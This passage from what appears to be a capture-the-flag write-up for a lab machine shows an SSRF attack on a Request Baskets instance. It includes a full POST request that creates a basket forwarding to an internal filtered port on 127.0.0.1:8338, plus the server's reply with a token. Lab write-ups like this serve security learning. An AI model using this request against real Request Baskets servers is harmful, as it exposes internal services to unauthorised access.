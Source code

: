 ![Rquest baskets](/assets/img/Sau/Sau_01.png)


So knowing that this version might be vulnerable to a SSRF attack and there were two ports filtered it gave me the idea of trying to reach one of those ports. Send the following request to create a basket that connects to the service on port **8338**.

```
POST /api/baskets/Calico HTTP/1.1
Host: 10.10.11.224:55555
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: null
X-Requested-With: XMLHttpRequest
Origin: http://10.10.11.224:55555
Connection: close
Referer: http://10.10.11.224:55555/web
Content-Length: 122

{"forward_url": "http://127.0.0.1:8338/","proxy_response": true,"insecure_tls": false,"expand_path": true,"capacity": 250}
```

The server then issued the following valid response showing our basket had been created

```
HTTP/1.1 201 Created
Content-Type: application/json; charset=UTF-8
Date: Sat, 16 Dec 2023 19:14:56 GMT
Content-Length: 56
Connection: close

{"token":"OpPvaYiJioOGZOgdvIGhqvZf6bcDplQnheUNZPQJ6gnh"}
```
